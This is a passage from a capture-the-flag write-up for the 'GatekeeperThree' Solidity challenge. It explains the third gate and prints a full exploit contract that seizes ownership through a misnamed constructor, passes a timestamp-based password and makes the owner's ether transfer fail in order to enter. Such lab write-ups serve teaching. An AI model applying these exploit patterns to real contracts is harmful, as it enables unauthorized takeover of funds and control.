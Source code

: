 Now we also need to pass modifier three. So we need make some more calls in the Exploit() function before the enter() function.

```solidity
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
        _;
    }
}
```

The modifier `gateThree()` will check if the contract has a balance greater than 0.001 ether. So, we need to send the `GatekeeperThree` contract some ether, more than 0.001 ether. Another condition it checks is when it tries to send some ether to the `owner` (Exploit contract), it expects the transaction to return false, which means the transaction should fail. If our Exploit contract doesn't have the `receive()` function, then this condition will be satisfied.

So now, in our `Exploit()` function, before calling `enter()`, we need to send ether greater than `0.001 ether`to the `GatekeeperThree` contract. Below is the final `Exploit` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGateKeeperThree{
    function enter() external;
    function construct0r() external;
    function getAllowance(uint256 _password) external;
    function createTrick() external;
}


contract ExploitGateKeeperThree{
    IGateKeeperThree gateKeeperThree;

    constructor(address _addr){
        gateKeeperThree=IGateKeeperThree(_addr);

    }

    function Exploit()public payable{
        gateKeeperThree.construct0r();
        gateKeeperThree.createTrick();
        gateKeeperThree.getAllowance(block.timestamp);
        address(gateKeeperThree).call{value:1000000000000001}("");
        gateKeeperThree.enter();
    }
}

```

Once you deploy this Exploit contract and call Exploit() function the challenge will be solved. Hope you enjoyed this challenge.

### Key takeaways

When someone is sending ether to a contract and if the contract doesn't have a receive() function, the transaction will fail.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
